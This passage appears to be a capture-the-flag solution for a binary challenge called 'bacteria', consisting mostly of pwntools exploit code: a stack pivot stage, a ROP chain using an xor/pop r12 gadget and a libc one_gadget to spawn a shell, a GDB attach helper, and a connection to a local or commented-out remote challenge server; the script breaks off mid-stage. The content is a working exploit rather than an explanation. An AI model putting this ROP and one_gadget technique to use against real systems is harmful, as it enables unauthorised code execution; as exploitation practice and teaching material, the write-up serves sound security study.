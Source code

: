 ```python
one_gadget = 0xe6c7e
xor_r12_pop_r12 = 0xd31f0

payload = p64(0)                               # Fake rbp, not use more
payload += p64(libc_base + xor_r12_pop_r12)    # rip
payload += p64(0)                              # For that pop r12
payload += p64(libc_base + one_gadget)         # Return address
p.send(payload)

p.interactive()
```

Full code:

```python
import subprocess
import time
from pwn import *

context.binary = exe = ELF('./bacteria', checksec=False)
# context.log_level = 'debug'

def GDB():
	proc = subprocess.Popen(['ps', 'aux'], stdout=subprocess.PIPE)
	ps = proc.stdout.read().split(b'\n')
	pid = ''
	for i in ps:
		if b'/home/bacteria/bacteria' in i and b'timeout' not in i:
			pid = i.split(b'    ')[1].split(b'  ')[0].decode()
			log.info('Process pid: ' + str(pid))

	command = '''
	b*0x401040
	c
	c
	c
	c
set $JMPREL = 0x400300
set $SYMTAB = 0x400290
set $STRTAB = 0x4002c0
set $reloc_arg = 632
x/3xg $JMPREL + $reloc_arg*24
x/3xg $SYMTAB + ( 0x0000027a00000007 >> 32 )*24
x/s $STRTAB + 0x3bc0
	'''
	with open('/tmp/command.gdb', 'wt') as f:
	        f.write(command)
	subprocess.Popen(['sudo', '/usr/bin/x-terminal-emulator', '--geometry', '960x1080+960+0', '-e', 'gdb', '-p', pid, '-x', '/tmp/command.gdb'])
	input()         # input() to make program wait with gdb
p = connect('127.0.0.1', 9487)

# p = connect('34.81.158.137', 9487)

# GDB()

############################
### Stage 1: Stack pivot ###
############################
rw_section = 0x403e00
mov_rsi_rbp_read = 0x401027

payload = p64(rw_section - 0x10)    # Fake rbp
payload += p64(mov_rsi_rbp_read)    # rip
```